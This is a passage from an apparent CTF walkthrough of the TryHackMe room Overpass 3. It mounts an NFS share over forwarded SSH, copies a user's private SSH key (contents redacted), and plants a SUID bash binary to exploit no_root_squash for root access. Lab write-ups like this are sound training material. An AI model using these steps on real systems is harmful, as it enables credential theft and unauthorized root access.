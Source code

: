 - Don't close the ssh session with port forwarding, until you want to access the NFS.

--- 

## User Flag

- Mount the NFS to the attacker machine.
- Now we have **read, write** permission inside that NFS.

```bash
root@kali:# mount -t nfs localhost:/ /mnt/jamesNFS/

root@kali:# cd /mnt/jamesNFS/

root@kali:/mnt/jamesNFS# ls
user.flag

root@kali:/mnt/jamesNFS# cat user.flag 
thm{REDACTED}
```

## Privilege Escalation (James to Root)

### Private SSH key

- We have the **private key of James** in the NFS.
- We'll copy it to the attacker machine, so that we can login as james using ssh.

```bash
root@kali:/mnt/jamesNFS# cat .ssh/
authorized_keys  id_rsa           id_rsa.pub       

root@kali:/mnt/jamesNFS# cat .ssh/authorized_keys 

root@kali:/mnt/jamesNFS# cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
REDACTED
-----END OPENSSH PRIVATE KEY-----

root@kali:/mnt/jamesNFS# cp .ssh/id_rsa ~/Desktop/CTF/TryHackMe/overpass3-hosting
```

### Bash binary with SUID

- We need to find a way for privilege escalation.
- Reading more about **no_root_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as **root**. And this can lead to serious security implications.
- So, we'll copy `/bin/bash` into the NFS and set **SUID bit**:

```bash
root@kali:/mnt/jamesNFS# cp /bin/bash .

root@kali:/mnt/jamesNFS# chmod +s bash

root@kali:/mnt/jamesNFS# ls -la
total 1228
drwx------ 3 ds   ds       124 May 21 00:38 .
drwxr-xr-x 4 root root    4096 May 20 23:34 ..
-rwsr-sr-x 1 root root 1234376 May 21 00:38 bash
lrwxrwxrwx 1 root root       9 Nov  9  2020 .bash_history -> /dev/null
-rw-r--r-- 1 ds   ds        18 Nov  8  2019 .bash_logout
-rw-r--r-- 1 ds   ds       141 Nov  8  2019 .bash_profile
-rw-r--r-- 1 ds   ds       312 Nov  8  2019 .bashrc
drwx------ 2 ds   ds        61 Nov  8  2020 .ssh
-rw------- 1 ds   ds        38 Nov 18  2020 user.flag
```